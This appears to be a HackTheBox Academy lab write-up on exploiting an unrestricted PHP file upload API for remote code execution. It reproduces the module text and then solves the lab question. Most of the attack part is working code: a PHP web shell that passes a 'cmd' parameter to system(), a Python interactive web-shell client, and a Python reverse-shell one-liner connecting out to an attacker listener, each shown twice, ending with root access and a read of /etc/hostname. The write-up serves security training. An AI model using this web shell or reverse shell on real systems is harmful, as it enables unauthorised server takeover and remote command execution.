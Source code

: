 ﻿Arbitrary file uploads are among the most critical vulnerabilities. These flaws enable attackers to upload malicious files, execute arbitrary commands on the back-end server, and even take control over the entire server. Arbitrary file upload vulnerabilities affect web applications and APIs alike.

---

## PHP File Upload via API to RCE

Proceed to the end of this section and click on`Click here to spawn the target system!` or the`Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along.

Suppose we are assessing an application residing in`http://<TARGET IP>:3001`.

When we browse the application, an anonymous file uploading functionality sticks out. ![image](https://academy.hackthebox.com/storage/modules/160/2.png)

Let us create the below file (save it as`backdoor.php`) and try to upload it via the available functionality.


```php
<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>
```

The above allows us to append the parameter _cmd_ to our request (to backdoor.php), which will be executed using _system()_. This is if we can determine _backdoor.php_'s location, if _backdoor.php_ will be rendered successfully and if no PHP function restrictions exist.

![image](https://academy.hackthebox.com/storage/modules/160/4.png)

- _backdoor.php_ was successfully uploaded via a POST request to`/api/upload/`. An API seems to be handling the file uploading functionality of the application.
- The content type has been automatically set to`application/x-php`, which means there is no protection in place. The content type would probably be set to`application/octet-stream` or`text/plain` if there was one.
- Uploading a file with a _.php_ extension is also allowed. If there was a limitation on the extensions, we could try extensions such as`.jpg.php`,`.PHP`, etc.
- Using something like [file_get_contents()](https://www.php.net/manual/en/function.file-get-contents.php) to identify php code being uploaded seems not in place either.
- We also receive the location where our file is stored,`http://<TARGET IP>:3001/uploads/backdoor.php`.

We can use the below Python script (save it as`web_shell.py`) to obtain a shell, leveraging the uploaded`backdoor.php` file.

Code: python

```python
import argparse, time, requests, os # imports four modules argparse (used for system arguments), time (used for time), requests (used for HTTP/HTTPs Requests), os (used for operating system commands)
parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs") # generates a variable called parser and uses argparse to create a description
parser.add_argument("-t", "--target", help="Specify the target host E.g. http://<TARGET IP>:3001/uploads/backdoor.php", required=True) # specifies flags such as -t for a target with a help and required option being true
parser.add_argument("-p", "--payload", help="Specify the reverse shell payload E.g. a python3 reverse shell. IP and Port required in the payload") # similar to above
parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes") # similar to above
args = parser.parse_args() # defines args as a variable holding the values of the above arguments so we can do args.option for example.
if args.target == None and args.payload == None: # checks if args.target (the url of the target) and the payload is blank if so it'll show the help menu
 parser.print_help() # shows help menu
elif args.target and args.payload: # elif (if they both have values do some action)
 print(requests.get(args.target+"/?cmd="+args.payload).text) ## sends the request with a GET method with the targets URL appends the /?cmd= param and the payload and then prints out the value using .text because we're already sending it within the print() function
if args.target and args.option == "yes": # if the target option is set and args.option is set to yes (for a full interactive shell)
 os.system("clear") # clear the screen (linux)
 while True: # starts a while loop (never ending loop)
 try: # try statement
 cmd = input("$ ") # defines a cmd variable for an input() function which our user will enter
 print(requests.get(args.target+"/?cmd="+cmd).text) # same as above except with our input() function value
 time.sleep(0.3) # waits 0.3 seconds during each request
 except requests.exceptions.InvalidSchema: # error handling
 print("Invalid URL Schema: http:// or https://")
 except requests.exceptions.ConnectionError: # error handling
 print("URL is invalid")
```

Use the script as follows.


```shell-session
smoothment@htb[/htb]$ python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes
$ id
uid=0(root) gid=0(root) groups=0(root)
```

To obtain a more functional (reverse) shell, execute the below inside the shell gained through the Python script above. Ensure that an active listener (such as Netcat) is in place before executing the below.


```shell-session
python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes
$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.192",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

# Question
---

![](Pasted%20image%2020250219162424.png)
Let's begin by going into the application:

![](Pasted%20image%2020250219162641.png)


We can upload files, let's upload a file named `backdoor.php` with the following contents:

```php
<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>
```

![](Pasted%20image%2020250219162652.png)

Let's use this python script to interact with our webshell:

```python
import argparse, time, requests, os # imports four modules argparse (used for system arguments), time (used for time), requests (used for HTTP/HTTPs Requests), os (used for operating system commands)
parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs") # generates a variable called parser and uses argparse to create a description
parser.add_argument("-t", "--target", help="Specify the target host E.g. http://<TARGET IP>:3001/uploads/backdoor.php", required=True) # specifies flags such as -t for a target with a help and required option being true
parser.add_argument("-p", "--payload", help="Specify the reverse shell payload E.g. a python3 reverse shell. IP and Port required in the payload") # similar to above
parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes") # similar to above
args = parser.parse_args() # defines args as a variable holding the values of the above arguments so we can do args.option for example.
if args.target == None and args.payload == None: # checks if args.target (the url of the target) and the payload is blank if so it'll show the help menu
 parser.print_help() # shows help menu
elif args.target and args.payload: # elif (if they both have values do some action)
 print(requests.get(args.target+"/?cmd="+args.payload).text) ## sends the request with a GET method with the targets URL appends the /?cmd= param and the payload and then prints out the value using .text because we're already sending it within the print() function
if args.target and args.option == "yes": # if the target option is set and args.option is set to yes (for a full interactive shell)
 os.system("clear") # clear the screen (linux)
 while True: # starts a while loop (never ending loop)
 try: # try statement
 cmd = input("$ ") # defines a cmd variable for an input() function which our user will enter
 print(requests.get(args.target+"/?cmd="+cmd).text) # same as above except with our input() function value
 time.sleep(0.3) # waits 0.3 seconds during each request
 except requests.exceptions.InvalidSchema: # error handling
 print("Invalid URL Schema: http:// or https://")
 except requests.exceptions.ConnectionError: # error handling
 print("URL is invalid")
```

Now, let's use it:

```shell-session
python3 web_shell.py -t http://10.129.27.149:3001/uploads/backdoor.php -o yes
```

We get a shell:

![](Pasted%20image%2020250219162817.png)

We can try moving it to netcat, let's set up a listener and use the following:

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.192",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

We get this:
![](Pasted%20image%2020250219164104.png)

We got a shell in netcat, now, let's read the hostname:

```
root@nix01-websvc:/app/php/uploads# cat /etc/hostname

nix01-websvc
```

Answer is:

```
nix01-websvc
```
